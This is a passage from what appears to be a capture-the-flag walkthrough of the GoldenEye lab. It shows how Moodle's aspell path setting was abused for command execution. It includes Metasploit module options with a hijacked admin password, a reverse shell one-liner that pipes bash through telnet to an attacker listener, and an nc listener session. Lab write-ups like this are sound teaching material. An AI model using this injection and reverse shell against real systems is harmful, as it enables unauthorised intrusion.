 > Moodle allows an authenticated user to define spellcheck settings via the web interface. The user can update the spellcheck mechanism to point 
> to a system-installed aspell binary. By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands 
> in the context of the web application upon spellchecking requests. This module also allows an attacker to leverage another privilege escalation
> vuln. Using the referenced XSS vuln, an unprivileged authenticated user can steal an admin sesskey and use this to escalate privileges to that 
> of an admin, allowing the module to pop a shell as a previously unprivileged authenticated user. This module was tested against Moodle version 
> 2.5.2 and 2.2.3.

The admin account we hijacked has the necessary privileges, so we can use this exploit.

```
Module options (exploit/multi/http/moodle_cmd_exec):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   xWinter1995x!          yes       Password to authenticate with
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     severnaya-station.com  yes       The target address range or CIDR identifier
   RPORT      80                     yes       The target port (TCP)
   SESSKEY                           no        The session key of the user to impersonate
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /gnocertdir            yes       The URI of the Moodle installation
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host
```

It seemed straightforward, but the exploit failed to run for me. I looked over the source code and saw that the spellcheck engine that is set by the exploit is PSpellShell. By default on the site, the TinyMCE HTML editor spell engine selected was Google Spell. So I manually changed this and ran the exploit again, but it still didn't work. So I did it manually. Recall this part:

> By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application
> upon spellchecking requests

Under Server -> System paths, I edited the **Path to aspell** field with this reverse shell one-liner (had to cycle through a couple before finding one that worked): <code>sh -c '(mknod /tmp/backpipe p 2> /dev/null && /bin/bash 0</tmp/backpipe | telnet 192.168.159.129 8080 1>/tmp/backpipe &)'</code>


Now if you go to Blogs and add a new entry, you can invoke the spellchecker by clicking on the spellcheck button:

{% img center /images/pentest/goldeneye/spellcheck.png 'spellcheck' 'spellcheck' %}

And you should receive a shell on your listener. I upgraded it to a proper one:

```
nc -vnlp 8080
listening on [any] 8080 ...
connect to [192.168.159.129] from (UNKNOWN) [192.168.159.130] 54586
whoami
www-data
python -c 'import pty;pty.spawn("/bin/bash")'
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$
```
